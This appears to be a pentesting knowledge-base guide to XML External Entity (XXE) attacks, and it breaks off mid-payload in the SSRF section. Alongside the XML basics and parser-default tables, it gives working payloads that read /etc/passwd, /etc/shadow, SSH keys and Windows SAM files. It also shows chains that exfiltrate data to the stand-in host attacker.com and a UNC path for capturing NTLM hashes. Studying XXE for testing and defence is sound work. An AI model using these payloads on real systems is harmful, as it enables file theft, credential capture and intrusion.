




# XML Fundamentals

Before diving into XXE exploitation it is important to understand the basics of XML and how parsers work. If you are already familiar with XML, DTDs and entity resolution you can skip this section and go straight to the [XXE Taxonomy](#xxe-taxonomy).

## What is XML

XML (eXtensible Markup Language) is a format for storing and transporting structured data. It looks similar to HTML but unlike HTML, XML lets you define your own tags. Here is a simple XML document:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<user>
  <name>John Doe</name>
  <email>john@example.com</email>
  <role>admin</role>
</user>
```

The first line (`<?xml version="1.0" encoding="UTF-8"?>`) is the XML declaration. Everything else is structured data using custom tags. Applications use XML to exchange information between systems, store configuration files, define API requests and much more.

## What is an XML Parser

An XML parser is a piece of software that reads XML documents and makes their content available to the application. When a web application receives XML data (for example in an API request), it passes that data to the parser. The parser reads the XML structure, validates it and converts it into something the application can work with. For instance, when a Java server receives a POST request with `Content-Type: application/xml`, it typically passes the body to a parser like `DocumentBuilderFactory` to extract the data.

The key thing to understand is that the parser does not just read the data — it also **processes instructions** embedded in the XML document. This is where the security problem begins, because some of those instructions can tell the parser to read files from the server or make network requests. These instructions are called **entity declarations**, covered in the next sections.

## What is a DTD

A DTD (Document Type Definition) is a set of rules that defines the structure of an XML document. DTDs are declared at the beginning of an XML document using the `<!DOCTYPE>` declaration. Inside the DTD you can define elements, attributes and **entities**.

```xml
<?xml version="1.0"?>
<!DOCTYPE note [
  <!ELEMENT note (to, from, message)>
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT message (#PCDATA)>
]>
<note>
  <to>Alice</to>
  <from>Bob</from>
  <message>Hello</message>
</note>
```

In this example the DTD defines that a `note` element must contain `to`, `from` and `message` elements, and each of those contains text data (`#PCDATA`).

## What are Entities

Entities are like variables in XML. You define them in the DTD and reference them in the document body. When the parser encounters an entity reference it replaces it with the entity's value.

```xml
<?xml version="1.0"?>
<!DOCTYPE greeting [
  <!ENTITY name "World">
]>
<greeting>Hello &name;!</greeting>
```

When parsed, `&name;` gets replaced with "World", so the result is "Hello World!".

There are two types of entities that matter for XXE:

**Internal entities** have their value defined directly in the DTD. The example above (`<!ENTITY name "World">`) is an internal entity. Nothing dangerous here.

**External entities** tell the parser to fetch their value from an outside source using the `SYSTEM` keyword:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

This tells the parser: "go read the file `/etc/passwd` and use its contents as the value of this entity". This is where XXE attacks come from. If the parser obeys this instruction, the attacker can read any file the server has access to.

## What are Parameter Entities

Parameter entities are a special type of entity that can only be used inside DTD declarations (not in the document body). They are declared with `%` instead of just a name:

```xml
<!ENTITY % filename SYSTEM "file:///etc/passwd">
```

And they are referenced with `%filename;` instead of `&name;`:

```xml
%filename;
```

Why do they matter? Because parameter entities can define other entities. This creates a chain where one entity sets up another entity which sets up another. Here is a simplified example of how chaining works:

```xml
<!ENTITY % step1 SYSTEM "file:///etc/hostname">
<!ENTITY % step2 "<!ENTITY &#x25; step3 SYSTEM 'http://attacker.com/?data=%step1;'>">
%step2;
%step3;
```

What happens here: `%step1` is an external entity (the `SYSTEM` keyword makes it fetch the file instead of treating the value as a literal string), `%step2` creates a new entity that embeds the hostname into a URL, and `%step3` makes the parser visit that URL — sending the stolen data to the attacker. Don't worry about the `&#x25;` syntax for now, it is explained in detail in the [OOB section](#understanding-the-escape-characters).

This chaining ability is what makes advanced XXE techniques (like blind exfiltration and OOB attacks) possible.

## How Entity Resolution Creates the Vulnerability

When the parser encounters `<!ENTITY xxe SYSTEM "file:///etc/passwd">` followed by `&xxe;` in the document, it does the following:

1. Reads the DOCTYPE and registers the entity `xxe` with its SYSTEM identifier
2. When it encounters `&xxe;` in the document body, looks up the entity
3. Sees the `SYSTEM` keyword and attempts to fetch `file:///etc/passwd`
4. Reads the file content and substitutes it in place of `&xxe;`
5. Continues parsing the document with the substituted content

The vulnerability is at step 3. The parser fetches whatever resource the entity points to without questioning whether it should. If the attacker controls the XML input, they control what the parser fetches.

-----

# Context of XXE

Many legacy and modern applications rely on the XML format to consume, store and manage data from several sources. Nowadays we have other and more efficient ways of processing data like JSON, but due to the widespread adoption of XML many products still use it extensively. XML supports custom tags, DTD definitions and schema validation which makes it very flexible but also introduces attack surface through its entity resolution mechanism.

## What is it

An XML External Entity attack is a type of attack against an application that parses non-validated XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. These external entities are defined by the attacker and they can lead to several side effects like data exfiltration, Server-Side Request Forgery (SSRF), denial of service or even, in very specific scenarios, Remote Code Execution (RCE).

To understand the difference between a harmless entity and a dangerous one, compare these two examples:

**Internal entity (harmless):**

```XML
<?xml version="1.0" ?>
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

Here the attacker is defining the entity "example", assigning the value "Doe" to it and then reflecting it in the "lastName" element. Nothing leaves the server.

**External entity (dangerous):**

```XML
<?xml version="1.0" ?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "file:///etc/passwd"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

Here the attacker is defining "example" and assigning the content of "/etc/passwd" as the value. In an ideal situation the content of the file will be printed in the response. If the application does not return the content directly, other exfiltration techniques covered later in this KB can be used.

## Requirements

XXE attacks require the application to accept XML from uncontrolled sources and parse it in an insecure way. Many XML parsers by default require the developer to limit their capabilities by setting different flags in the component that uses it.

-----

# XXE Taxonomy

The following taxonomy classifies all XXE attack techniques covered in this KB. It serves both as a mental model for understanding how XXE exploitation works and as a navigational index. Techniques are grouped by their primary objective and sorted by difficulty/rarity within each category.

```
XXE ATTACK TAXONOMY
│
├── BY OBJECTIVE
│   ├── Data Exfiltration (read files, configs, secrets)
│   │   ├── [CORE]     Direct LFI ──────────────────── § Core Techniques > LFI
│   │   ├── [CORE]     Error-based exfiltration ────── § Core Techniques > Error-Based Blind XXE
│   │   ├── [CORE]     OOB via malicious DTD ───────── § Core Techniques > OOB Exfiltration
│   │   ├── [ADV]      Local DTD override ──────────── § Advanced > Local System DTD Exploitation
│   │   ├── [ADV]      DNS-based exfiltration ──────── § Advanced > DNS-Based OOB
│   │   └── [ADV]      PHP filter chains ───────────── § Advanced > PHP Wrappers
│   │
│   ├── Internal Reconnaissance (SSRF, service enum)
│   │   ├── [CORE]     SSRF to internal services ──── § Core Techniques > SSRF
│   │   ├── [INT]      SSRF via error messages ─────── § Core Techniques > Error-Based Blind XXE > Bonus
│   │   ├── [ADV]      Java LDAP/RMI SSRF ─────────── § Advanced > Java Protocols
│   │   └── [ADV]      UNC path NTLM capture ──────── § Core Techniques > LFI > Windows
│   │
│   ├── Environment-Specific Escalation (RCE — rare, stack-dependent)
│   │   ├── [ADV]      PHP expect:// wrapper ───────── § Advanced > PHP Wrappers
│   │   └── [ADV]      Java jar:// deserialization ── § Advanced > Java Protocols
│   │
│   └── Denial of Service
│       ├── [CORE]     Billion Laughs ──────────────── § Denial of Service
│       └── [CORE]     Quadratic Blowup ───────────── § Denial of Service
│
├── BY ENTRY POINT
│   ├── [CORE]     REST API (XML body) ─────────────── § Identifying XXE on REST APIs
│   ├── [INT]      SOAP endpoints ──────────────────── § Intermediate > SOAP
│   ├── [INT]      File upload (SVG/XLSX/DOCX) ─────── § Intermediate > File Upload
│   ├── [INT]      Content-Type switching ──────────── § Intermediate > Content-Type Switching
│   ├── [INT]      XInclude injection ──────────────── § Intermediate > XInclude
│   └── [ADV]      RSS/Atom feeds, WebDAV, XSLT ───── (context-dependent)
│
├── BY EXFILTRATION CHANNEL
│   ├── In-band ── response reflects entity content
│   ├── Error-based ── file content leaked in error messages
│   ├── OOB HTTP ── data sent to attacker server via HTTP
│   ├── OOB DNS ── data encoded in DNS queries
│   └── Side-channel ── behavioral differences (timing, status codes)
│
└── DIFFICULTY LEVELS
    ├── [CORE] ── Standard techniques, work on most vulnerable parsers
    ├── [INT]  ── Require specific context (SOAP, file formats, content negotiation)
    └── [ADV]  ── Require specific stack, rare conditions or complex payload crafting
```

**Legend**: `[CORE]` = common, first to try | `[INT]` = intermediate, context-dependent | `[ADV]` = advanced, rare conditions

-----

# Parser Behaviour

The [XML Fundamentals](#xml-fundamentals) section explains what entities are and how resolution works at a conceptual level. This section goes deeper into how different parsers implement entity resolution and why some are vulnerable while others are not.

## What Happens When Resolution Goes Wrong

As covered in the fundamentals, the parser resolves entities by fetching whatever resource the `SYSTEM` identifier points to. But what happens when the fetched content causes problems?

- If the file contains characters that are special in XML (`<`, `>`, `&`) the parser throws an error because the substituted content breaks the XML structure. This is why techniques like base64 encoding (php://filter) and error-based exfiltration exist — they work around this limitation.
- If the target file is binary (a compiled library, an image, a .jar archive) the parser will either fail or return garbled content. This is another reason why encoding wrappers like `php://filter/convert.base64-encode` are useful — they convert binary content to safe ASCII before the parser tries to process it.
- If the entity points to an HTTP URL, the parser makes an actual HTTP request to that URL. The response body replaces the entity. This is the foundation of both SSRF and OOB exfiltration.
- If the entity points to a resource that does not exist, the parser generates an error message that often includes the path it tried to resolve. Attackers exploit this behavior to leak data through error messages.

Understanding these failure modes is critical because many of the advanced techniques in this KB are built specifically to exploit them.

## Why Parsers Are (or Were) Vulnerable

Historically, many XML parsers shipped with external entity resolution enabled because the XML specification requires it for full DTD support. The spec was designed in an era where XML documents were trusted and the ability to include external resources was considered a feature not a risk.

In some ecosystems this is still the case. Java parsers in particular remain insecure by default and OWASP still documents that most common Java XML parsers must be explicitly hardened. However, modern runtimes in other languages have improved their defaults considerably: Python's `lxml` has been safe since version 5.x, .NET changed to secure defaults in 4.5.2, PHP requires explicit `LIBXML_NOENT` flag to enable entity substitution, and Ruby's Nokogiri treats documents as untrusted by default.

This means the vulnerability is an opt-out problem in some stacks (Java) but closer to opt-in in others (modern PHP, Python, .NET). The practical implication for pentesting is that the technology stack matters a lot when assessing XXE likelihood. Legacy applications and older framework versions remain the most common targets.

## Parser Behaviour by Language

Different parsers behave differently. Some are vulnerable by default, some require specific flags to become vulnerable, and some have been hardened over time:

**Java** — All Java native (JAXP) parsers are vulnerable by default and must be hardened explicitly.

|Parser                  |External Entities|Parameter Entities|DTD Processing|Risk Assessment                                      |
|------------------------|-----------------|------------------|--------------|-----------------------------------------------------|
|`DocumentBuilderFactory`|✅ On by default  |✅ On by default   |✅ On          |Vulnerable by default — must be hardened explicitly   |
|`SAXParserFactory`      |✅ On by default  |✅ On by default   |✅ On          |Vulnerable by default — must be hardened explicitly   |
|`XMLReader`             |✅ On by default  |✅ On by default   |✅ On          |Vulnerable by default — must be hardened explicitly   |

**Python** — Defaults vary significantly by parser.

|Parser                 |External Entities      |Parameter Entities|DTD Processing|Risk Assessment                                          |
|-----------------------|-----------------------|------------------|--------------|---------------------------------------------------------|
|`lxml` (etree)         |❌ Off by default       |❌ Off             |✅ On          |Usually safe — secure defaults since 5.x                 |
|`xml.etree.ElementTree`|❌ No DTD support       |❌ No              |❌ No          |Usually safe — limited parser, relies on expat           |
|`xml.dom.minidom`      |⚠️ Depends on SAX config|❌ No              |⚠️ Partial     |Version-dependent — underlying SAX parser behavior varies|

**PHP** — External entities require explicit opt-in via `LIBXML_NOENT`.

|Parser       |External Entities          |Parameter Entities|DTD Processing|Risk Assessment                                            |
|-------------|---------------------------|------------------|--------------|-----------------------------------------------------------|
|`SimpleXML`  |⚠️ Off unless `LIBXML_NOENT`|❌ Off             |✅ On          |Requires insecure flags — safe unless developer enables it |
|`DOMDocument`|⚠️ Off unless `LIBXML_NOENT`|❌ Off             |✅ On          |Requires insecure flags — safe unless developer enables it |

**.NET** — Defaults changed in version 4.5.2.

|Parser       |External Entities        |Parameter Entities|DTD Processing|Risk Assessment                                                            |
|-------------|-------------------------|------------------|--------------|---------------------------------------------------------------------------|
|`XmlDocument`|⚠️ Changed across versions|⚠️ Varies          |✅ On          |Version-dependent — < 4.5.2 vulnerable, ≥ 4.5.2 safe unless XmlResolver set|
|`XDocument`  |❌ Off by default         |❌ Off             |✅ On          |Usually safe — since .NET 4.5.2                                            |

**Ruby** — Both parsers default to safe behavior.

|Parser    |External Entities|Parameter Entities|DTD Processing|Risk Assessment                                        |
|----------|-----------------|------------------|--------------|-------------------------------------------------------|
|`Nokogiri`|❌ Off by default |❌ Off             |✅ On          |Usually safe — treats documents as untrusted by default|
|`REXML`   |⚠️ Partial support|❌ No              |⚠️ Partial     |Version-dependent — partial and inconsistent support   |

**C/C++** — libxml2 requires explicit flags to enable entity resolution.

|Parser   |External Entities     |Parameter Entities|DTD Processing|Risk Assessment                                           |
|---------|----------------------|------------------|--------------|----------------------------------------------------------|
|`libxml2`|⚠️ Off unless flags set|⚠️ Off unless flags|✅ On          |Requires insecure flags — `XML_PARSE_NOENT` or similar    |

Key observations from a pentesting perspective:

- Historically Java XML parsers have required explicit hardening and many frameworks still rely on insecure defaults. If the target runs Java, XXE should be high on the testing list.
- PHP requires the `LIBXML_NOENT` flag to enable entity substitution. The vulnerability often comes from developers explicitly enabling it or from legacy code that predates current best practices.
- .NET changed defaults in version 4.5.2. Applications running on older .NET frameworks or using custom `XmlResolver` configurations are likely vulnerable.
- Python's `lxml` has been safe by default for years but `xml.dom.minidom` behavior depends on the underlying SAX parser configuration which may vary.
- Ruby's Nokogiri treats documents as untrusted by default, making XXE unlikely unless the developer overrides this behavior.

## Protocols Supported by Parsers

Not all parsers support the same protocols. This directly affects what techniques are available:

|Protocol   |Java  |PHP           |.NET|Python|Ruby|
|-----------|------|--------------|----|------|----|
|`file://`  |✅     |✅             |✅   |✅     |✅   |
|`http://`  |✅     |✅             |✅   |✅     |✅   |
|`https://` |✅     |✅             |✅   |✅     |✅   |
|`ftp://`   |✅     |✅             |⚠️   |❌     |❌   |
|`jar://`   |✅     |❌             |❌   |❌     |❌   |
|`netdoc://`|⚠️ Some|❌             |❌   |❌     |❌   |
|`php://`   |❌     |✅             |❌   |❌     |❌   |
|`expect://`|❌     |⚠️ Extension   |❌   |❌     |❌   |
|`data://`  |❌     |✅             |❌   |❌     |❌   |
|`gopher://`|❌     |⚠️ Old versions|❌   |❌     |❌   |

Java has the broadest protocol support which is why Java-specific techniques (jar://, netdoc://, LDAP, RMI) exist. PHP has its own set of wrappers (php://, expect://, data://) that are unique to that ecosystem.

-----

# XXE Exploitation Model

The following diagram represents the full exploitation model for XXE attacks. It starts from initial detection and branches into different techniques based on what the application allows and how it responds. Use this as a decision map during testing.

## Decision Tree



## Entry Points



## Language-Specific



## Denial of Service



-----

# Identifying XXE

## When to Suspect XXE

Before diving into payloads, it helps to know when XXE testing is worth prioritizing. These are the most common real-world scenarios where XXE shows up:

- APIs that accept structured data in XML format (REST, SOAP)
- SAML-based authentication workflows (SSO implementations)
- Document conversion pipelines (PDF generators, report engines)
- File upload endpoints that process SVG, XLSX, DOCX or other XML-based formats
- Configuration import features (XML config files, backup restores)
- RSS/Atom feed aggregation systems
- Any legacy enterprise system that predates JSON adoption

If the target matches any of these patterns and especially if it runs Java, it is worth spending time on XXE testing.

**Tip:** If the API only accepts JSON, do not give up immediately. Try sending an XML payload with `Content-Type: application/json` — some frameworks parse the body based on content rather than the declared content-type. This technique is covered in [Content-Type Switching](#content-type-switching).

## Testing on REST APIs

The most reliable way to confirm XXE is by triggering entity resolution. To minimize the risk of information leaks and damage to the server we can try to either reflect a string from an external entity or read a harmless file like the hosts file.

Some scenarios would require further testing since the entry point of the attack would not properly reflect our payload in the response. In these cases we can rely on errors coming from the application to identify the exploitability.

### Test 1: Simple Entity Reflection

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY test "SUCCESS">
]>
<root>
  <data>&test;</data>
</root>
```

The behavior expected with this payload would be that the response contains "SUCCESS" confirming that entity processing is enabled.

### Test 2: File Inclusion (Safe File)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<root>
  <data>&xxe;</data>
</root>
```

The behavior expected with this payload would be that the response contains the system hostname confirming file read capabilities.

### Test 3: Protocol Error

But if the response does not return anything or it does not contain the expected data we can try to send a malformed entity to trigger a protocol error:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "sdjsd:///etc/passwd"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

In a real exploitation use case, this payload triggered an "Unknown protocol: sdjsd". This is proof enough to infer that the defined external entity "xxe" is being processed by the XML parser.

### Test 4: Malformed URL Error

Additionally, we can also trigger errors by malforming the resource declaration as follows:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "http:/Attacker server"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

In this case we can see that the URL is malformed and in the same real exploitation use case the target application returned "protocol = http host = null" meaning that the entity got properly resolved.

### Test 5: OOB Callback

Another method worth trying (but noisier than the ones above) is a basic OOB connection to a server controlled by us. In this scenario we may face some limitations due to possible network restrictions (firewall blocking connections to external sources, SIEM detections, etc):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://attacker.com/callback">
]>
<root>&xxe;</root>
```

### Behavioral Analysis (No Error Output)

The last and most extreme case would be that the target application does not return any error information at all and does not print the injected entities in the response. In this case we can either try an OOB connection or analyze the application behavior. Let's say the target returns 200 OK with the legitimate request and when trying to exfiltrate `/etc/passwd` returns nothing but 200 OK. The most common behavior will be that if the malicious XML triggers an error we see a 500 error. At this step we have to be very careful to avoid errors resulting from XML syntax errors. With a well-formed XML structure we can ensure that the errors come from the malicious actions we define.

Pattern to look for:

1. Well-formed benign XML → Returns 200 OK with normal response
2. XML with syntax errors → Returns 500 error
3. XXE with syntax errors → Returns 500 error
4. XXE with valid syntax → Returns 200 OK (but no output)

If you observe this pattern with well-formed XXE payloads, the vulnerability is likely blind XXE. Proceed with local DTD enumeration, error-based exfiltration or OOB data exfiltration.

### Identification Decision Tree

```
Does the application accept XML input?
├─ No → Not vulnerable to XXE (move to other vectors)
└─ Yes
   │
   Does the application parse the XML?
   ├─ No → Not vulnerable to XXE
   └─ Yes
      │
      Can you inject custom XML structures?
      ├─ No → Likely using fixed XML templates (low XXE risk)
      └─ Yes
         │
         Test 1: Submit basic entity
         ┌─────────────────────────────────────┐
         │ <!ENTITY test "value">              │
         │ <root>&test;</root>                 │
         └─────────────────────────────────────┘
         │
         Does "value" appear in response?
         ├─ Yes → Vulnerable to basic XXE → Proceed with LFI/SSRF
         ├─ No → Go to Test 2
         └─ Error response → Vulnerable to error-based XXE
            │
            Test 2: External file entity
            ┌─────────────────────────────────────┐
            │ <!ENTITY xxe SYSTEM                 │
            │   "file:///etc/passwd">             │
            │ <root>&xxe;</root>                  │
            └─────────────────────────────────────┘
            │
            Is /etc/passwd content reflected?
            ├─ Yes → Vulnerable to LFI → Extract sensitive files
            ├─ No → Go to Test 3
            └─ Error with filename → Vulnerable error-based XXE
               │
               Test 3: SSRF test (local service)
               ┌─────────────────────────────────────┐
               │ <!ENTITY xxe SYSTEM                 │
               │   "http://127.0.0.1:8080/">         │
               └─────────────────────────────────────┘
               │
               Does request appear in logs?
               ├─ Yes → Vulnerable to SSRF
               ├─ No → Go to Test 4
               └─ Delayed response → Possible blind XXE
                  │
                  Test 4: OOB callback
                  ┌─────────────────────────────────────┐
                  │ <!ENTITY xxe SYSTEM                 │
                  │   "http://attacker.com/callback">   │
                  └─────────────────────────────────────┘
                  │
                  Did you receive a callback?
                  ├─ Yes → Vulnerable to blind XXE (OOB)
                  ├─ No → Test 5: XInclude
                  └─ Firewall blocking → Try DNS-based OOB
                     │
                     Test 5: XInclude (no DOCTYPE)
                     ┌─────────────────────────────────────┐
                     │ <root xmlns:xi=                     │
                     │   "http://www.w3.org/2001/XInclude">│
                     │   <xi:include href=                 │
                     │     "file:///etc/passwd"            │
                     │     parse="text"/>                  │
                     │ </root>                             │
                     └─────────────────────────────────────┘
                     │
                     Is file content reflected?
                     ├─ Yes → Vulnerable via XInclude
                     ├─ No → Likely NOT vulnerable to XXE
                     └─ DTD-based protections in place
                        Try advanced techniques:
                        - Local DTD enumeration
                        - Error-based exfiltration
                        - Time-based side-channel detection
```

-----

# Core Techniques

These are the standard XXE exploitation techniques. They work on most vulnerable parsers and should be the first ones to try.

## Local File Inclusion (LFI)

XML LFI payloads usually result in the application returning the contents of the file requested.

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```

In this payload, the entity "xxe" will return the content of the file `/etc/passwd` since it is referenced below the definition in the element foo. Depending on the context this may not result in data exfiltration since it depends on how the application returns data.

### Common Unix/Linux files

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">          <!-- User accounts -->
<!ENTITY xxe SYSTEM "file:///etc/shadow">          <!-- Password hashes (requires root — rarely readable) -->
<!ENTITY xxe SYSTEM "file:///etc/hosts">           <!-- Hostname mappings -->
<!ENTITY xxe SYSTEM "file:///etc/hostname">        <!-- System hostname -->
<!ENTITY xxe SYSTEM "file:///proc/self/environ">   <!-- Environment variables -->
<!ENTITY xxe SYSTEM "file:///proc/net/arp">        <!-- ARP table -->
<!ENTITY xxe SYSTEM "file:///home/user/.ssh/id_rsa">  <!-- SSH private keys -->
<!ENTITY xxe SYSTEM "file:///var/log/apache2/access.log">  <!-- Application logs -->
```

### LFI on Windows

Windows requires different file path syntax and targets different files. Additionally Windows supports UNC paths for network file access which can be exploited to enumerate network shares, force NTLM authentication attempts and capture NTLMv2 hashes:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///\\attacker.com\share\file.txt">
]>
<foo>&xxe;</foo>
```

Windows specific files:

```xml
<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">
<!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
<!ENTITY xxe SYSTEM "file:///C:/Windows/System32/config/SAM">    <!-- User hashes (requires SYSTEM) -->
<!ENTITY xxe SYSTEM "file:///C:/Windows/System32/config/SECURITY">  <!-- DPAPI keys (requires SYSTEM) -->
<!ENTITY xxe SYSTEM "file:///C:/boot.ini">                          <!-- Legacy Windows -->
<!ENTITY xxe SYSTEM "file:///C:/inetpub/wwwroot/web.config">       <!-- IIS configuration -->

<!-- UNC path enumeration -->
<!ENTITY xxe SYSTEM "file:///\\192.168.1.100\c$\Windows\System32\drivers\etc\hosts">
<!ENTITY xxe SYSTEM "file:///\\dc.example.com\SYSVOL\example.com\Policies\">
```

Some notes on Windows paths: use forward slashes even on Windows (`file:///C:/path/to/file`) since backslashes are interpreted as escape characters in XML. UNC paths use `file:///\\server\share\file`. Some parsers also support alternate data streams: `file:///C:/path/file.txt:zone.identifier`.

## Server Side Request Forgery (SSRF)

Server-Side Request Forgery (SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to unintended locations. This can lead to unauthorized actions or access to data within the organization and provides the attacker with the ability of fingerprinting other services running internally.

The basic SSRF payload makes the parser request an internal URL:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
